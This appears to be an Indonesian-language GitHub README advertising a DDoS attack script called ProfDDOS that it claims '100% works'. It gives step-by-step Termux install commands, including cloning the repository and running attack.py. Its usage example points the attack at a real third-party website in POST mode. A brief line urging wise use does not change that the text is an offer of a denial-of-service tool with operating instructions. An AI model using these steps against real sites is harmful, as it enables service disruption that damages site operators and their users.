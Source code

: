 Ini adalah script ddos attack yang 100% work

Script ini aslinya di install di windows

Tapi tenang,bisa di install termux

•Support http all device ✓

•Support https tergantung device nya ✓

Peringatan:

Jika device android kalian tidak support dengan https maka akan keluar sendiri/forclose

Gunakanlah tools ini dengan bijak,jangan di buat untuk perbuatan yang tidak baik

Cara menggunakanya👇👇

$ pkg update && pkg upgrade

$ pkg install git

$ pkg install python

Kalo sudah terinstall semua,kita clonning

$ git clone https://github.com/KangProf/ProfDDOS

$ cd ProfDDOS

$ python attack.py

Lalu enter 

CONTOH

$ python attack.py http://xnxx.com -m post 
Lalu enter


